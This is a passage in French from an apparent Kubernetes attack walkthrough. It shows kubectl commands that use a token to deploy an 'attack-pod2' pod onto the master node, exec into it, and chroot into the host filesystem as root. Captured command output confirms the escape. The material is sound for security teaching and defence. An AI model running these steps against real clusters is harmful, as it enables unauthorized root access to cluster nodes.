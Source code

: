 On va alors le lancer puis vérifier que notre nouveau pod tourne sur le bon noeud :

```
$ ./kubectl --token=$TOKEN apply -f attack-pod2.yaml
pod/attack-pod2 created
$ ./kubectl --token=$TOKEN get pods -o wide
NAME                         READY   STATUS    RESTARTS   AGE   IP            NODE     NOMINATED NODE   READINESS GATES
attack-pod2                  1/1     Running   0          8s    10.244.0.52   master   <none>           <none>
dev-57f659f775-4wr9p         1/1     Running   13         45d   10.244.2.19   node2    <none>           <none>
webserver-56889d9bf8-gh9vg   1/1     Running   5          48d   10.244.1.20   node1    <none>           <none>
```

On peut alors se connecter au pod puis chroot sur le FS de master :

```
$ ./kubectl --token=$TOKEN exec attack-pod2 -it /bin/sh
chroot /root
root@attack-pod2:/# cat /etc/hosts
cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   master  master
```

Et c’est gagné !